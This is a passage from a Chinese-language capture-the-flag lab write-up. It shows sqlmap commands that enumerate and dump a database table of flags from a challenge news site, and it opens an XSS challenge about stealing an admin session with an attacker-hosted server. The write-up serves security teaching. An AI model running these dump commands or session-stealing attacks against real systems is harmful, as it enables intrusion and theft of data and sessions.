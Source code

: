 其他有關 SQL injection 的 Payload 可以參考
https://portswigger.net/web-security/sql-injection/cheat-sheet

<br><br>

當然可以用純手工的方式慢慢戳，但利用 `sqlmap` 工具更快進行上述這般的 SQL injection 拿 Flag，流程上大致相同。

🙉 Find Database name
```bash
$ sqlmap -u https://news.macacahub.tw/new.php\?id\=1 --dbs
```
![ ](./pic/1-1.png)

🙉 Find Table name
```bash
$ sqlmap -u https://news.macacahub.tw/new.php\?id\=1 -D newsdb --tables
```
![ ](./pic/1-2.png)

🙉 Find column type
```bash
$ sqlmap -u https://news.macacahub.tw/new.php\?id\=1 -D newsdb -T FLAGS --columns
```
![ ](./pic/1-3.png)

🙉 Dump FLAGS
```bash
$ sqlmap -u https://news.macacahub.tw/new.php\?id\=1 -D newsdb -T FLAGS --dump
```
![ ](./pic/1-4.png)


或是，可以用更暴力的方式直接 **DUMP** Flag。
```bash
$ sqlmap -u https://news.macacahub.tw/new.php\?id\=1 --dump
```
![ ](./pic/1-5.png)



<br>

## error messages (220 points)

### Description

說笑話給 admin 拿 session 

https://message.macacahub.tw/

> hint: 政府網站最喜歡用的帳號之一 `user`

由於解題人數不甚樂觀，助教額外加了其他 Hint 
> bonus 1: 在登入頁面找 XSS 注入點

> bonus 2: XAMPP快速架站 + 記得要用public IP (或是ngrok穿隧)
